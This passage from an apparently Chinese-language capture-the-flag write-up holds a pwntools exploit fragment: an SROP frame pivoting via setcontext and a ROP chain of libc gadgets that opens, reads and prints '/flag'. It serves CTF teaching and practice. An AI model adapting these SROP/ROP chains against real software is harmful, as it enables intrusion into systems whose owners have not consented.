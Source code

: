 ⚠️：此`gadget`无法通过`ROPgadget`找到，请使用`ropper`来代替查找。

那么我们接下来布置`ROP`链即可:

```
# SROP chain
frame = SigreturnFrame()
frame.rdi = heap_address + 0x30A0 + 0x100 + 0x100
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = heap_address + 0x30a0 + 0x100
frame.rip = libc.address + 0x000000000002535f # : ret
frame.set_regvalue('&amp;fpstate', heap_address)
str_frame = str(frame)

payload = p64(libc.symbols['setcontext'] + 0x1d) + p64(heap_address + 0x30A0) + str_frame[0x10:]

# ROP chain
layout = [
    # sys_open("./flag", 0)
    libc.address + 0x0000000000047cf8, #: pop rax; ret; 
    2,
    libc.address + 0x00000000000cf6c5, #: syscall; ret; 
    # sys_read(flag_fd, heap, 0x100)
    libc.address + 0x0000000000026542, #: pop rdi; ret; 
    3, # maybe it is 2
    libc.address + 0x0000000000026f9e, #: pop rsi; ret; 
    heap_address + 0x10000,
    libc.address + 0x000000000012bda6, #: pop rdx; ret; 
    0x100,
    libc.address + 0x0000000000047cf8, #: pop rax; ret; 
    0,
    libc.address + 0x00000000000cf6c5, #: syscall; ret; 
    # sys_write(1, heap, 0x100)
    libc.address + 0x0000000000026542, #: pop rdi; ret; 
    1,
    libc.address + 0x0000000000026f9e, #: pop rsi; ret; 
    heap_address + 0x10000,
    libc.address + 0x000000000012bda6, #: pop rdx; ret; 
    0x100,
    libc.address + 0x0000000000047cf8, #: pop rax; ret; 
    1,
    libc.address + 0x00000000000cf6c5, #: syscall; ret; 
    # exit(0)
    libc.address + 0x0000000000026542, #: pop rdi; ret; 
    0,
    libc.address + 0x0000000000047cf8, #: pop rax; ret; 
    231,
    libc.address + 0x00000000000cf6c5, #: syscall; ret; 
]
payload = payload.ljust(0x100, '') + flat(layout)
payload = payload.ljust(0x200, '') + '/flag'
```

